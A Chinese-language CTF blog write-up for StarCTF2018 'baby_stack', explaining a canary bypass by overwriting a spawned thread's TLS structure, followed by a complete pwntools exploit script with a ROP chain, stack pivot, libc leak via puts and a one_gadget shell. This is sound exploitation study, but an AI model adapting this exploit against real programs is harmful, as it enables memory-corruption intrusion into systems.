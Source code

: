 ```yaml
---
title: 绕过Canary的其他姿势 StarCTF2018 baby_stack
date: 2020-02-20
tags:
    - bypass canary
categories:
    - Pwn
keywords: 
    - 覆写TLS结构体
description: 
    - CTF
toc: true
---
```

作者：LordRiot
#### emmmm今天把手机摔坏导致很不爽，于是搞了好几个小时这个题，最后发现自己是个rz orz


### StarCTF2018 baby_stack
今天等修手机的时候想起昨天看到ichunqiu新春战役的BFnote里利用覆写TLS结构体bypass了canary，于是就很好奇其具体原理，查了一波发现，那一题是利用libc2.23的特殊机制覆写了main线程的TLS，然后找到另一个覆写TLS结构体的题，即是本题，不过不同的是，本题直接利用pthread_create函数，加了个线程出来，然后由于该线程的栈在其TLS结构体之上，所以可以覆写成功。


这一题是我知道原理之后纯动调做的orz，就先打个断点，康康canary的值，之后跟进，直接find canary，查到其在内存中的所有位置，发现有四处，其中一处是在main线程的TLS，两处是在新线程的栈，一处是在新线程的TLS结构，然后算出偏移，直接全部覆写成'\x00'，然后由于改了TLS（TLS结构体里本身有些随机的量，例如一些在libc上的地址什么的，第一次覆写肯定无法保持，只能全覆写成0了），所以需要栈迁移一下，就read payload到新栈，然后劫持栈到新栈即可，然后似乎是由于payload长度的关系，我一度想写'/bin/sh\x00'，然后call system来getshell，但是始终不行，动调了俩小时，毫无起色，甚至我都跟着system源码单步调试了，发现似乎是payload的某个地方的覆写导致的，然后换成了one_gadget，一梭搞定，orz，原地自闭，下面贴一下exp。（one_gadget 我直接用的本地的，是2.27的，打远程的话，第一次leak出版本再获取一样的）

```
p = process('./baby_stack')

puts_plt = 0x4006F0
read_got = 0x601FD0
puts_got = 0x601FB0
new_stack = 0x602400
init_pop = 0x400B6A
init_mov = 0x400B50

pop_rdi = 0x400b73
pop_rbp = 0x4007d8
leave = 0x4008a6

fake_canary = '\x00' * 8
first_offset = 0xB0
second_offset = 0x820

fake_TLS = p64(0x603270)
fake_TLS += p64(0)
fake_TLS += p64(1)
fake_TLS += p64(0)
fake_TLS += fake_canary

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack - 8)
rop_chain += p64(leave)

payload = '\x00' * 0x101b
payload += rop_chain
payload += '\x00' * (second_offset - 16 - len(rop_chain))
payload += fake_TLS

p.recvuntil('How many bytes do you want to send?')
p.send(str(len(payload)))

sleep(1)
p.send(payload)

sleep(1)
p.send('\x00' * 3)

rop_chain = p64(init_pop)
rop_chain += p64(0)
rop_chain += p64(1)
rop_chain += p64(read_got)
rop_chain += p64(0)
rop_chain += p64(new_stack + 0x400)
rop_chain += p64(0x400)
rop_chain += p64(init_mov)
rop_chain += '\x00' * 0x38
rop_chain += p64(pop_rbp)
rop_chain += p64(new_stack + 0x400 - 8)
rop_chain += p64(leave)

payload = p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += rop_chain

p.recvuntil('It\'s time to say goodbye.')
p.send(payload)

p.recvline()
puts_addr = u64(p.recv(6).ljust(8, '\x00'))
obj = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - obj.dump('puts')
one_gadget = 0x4f322 + base_addr

sleep(1)
p.send(p64(one_gadget))

p.interactive()
```

本来还想水一期栈迁移和SROP的博客，但最近事情太多了，还要赶紧学堆，就先鸽了，以后有时间把return to VDSO和SROP一块写了: - )
